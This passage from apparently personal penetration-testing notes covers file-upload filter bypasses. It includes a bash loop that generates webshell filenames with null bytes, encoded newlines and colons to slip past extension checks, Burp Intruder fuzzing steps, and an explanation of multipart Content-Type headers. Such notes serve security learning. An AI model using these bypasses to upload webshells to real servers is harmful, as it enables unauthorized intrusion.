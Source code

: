 The same may be used with web applications hosted on a Windows server by injecting a colon (`:`) before the allowed file extension (e.g. `shell.aspx:.jpg`

## Mutating extension word-lists by adding special characters

0.  find out which extension the server accepts using intruder: find wordlist with known php extensions
1.  fuzzing extensions using burpsuite turbo intruder and discovering that `.phar .phtml .php4` are all allowed
2. step 2. : Create wordlist with them.
3. run script to mutate the wordlist using special character techniques
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```
4. run intruder with the new wordlist
---
## More file validation filters
# Content-Type
When you try to upload a webshell directly the browser sets the content type, 

When you upload a file through an HTTP request, there are indeed two different places where Content-Type headers can appear:


**Note:** A file upload HTTP request has two Content-Type headers, one for the attached file (at the bottom), and one for the full request (at the top). We usually need to modify the file's Content-Type header, but in some cases the request will only contain the main Content-Type header (e.g. if the uploaded content was sent as `POST` data), in which case we will need to modify the main Content-Type header.

## Example 1: Multipart Form Data Upload (Most Common)

In this case, you have both headers:
```http
POST /upload HTTP/1.1
Host: example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAbC123
Content-Length: 12345

------WebKitFormBoundaryAbC123
Content-Disposition: form-data; name="file"; filename="document.pdf"
Content-Type: application/pdf

[PDF binary data here]
------WebKitFormBoundaryAbC123--
```
Here:
1. The **main request header** has `Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAbC123`
2. Inside the request body, each file part has its own **file Content-Type header**: `Content-Type: application/pdf`
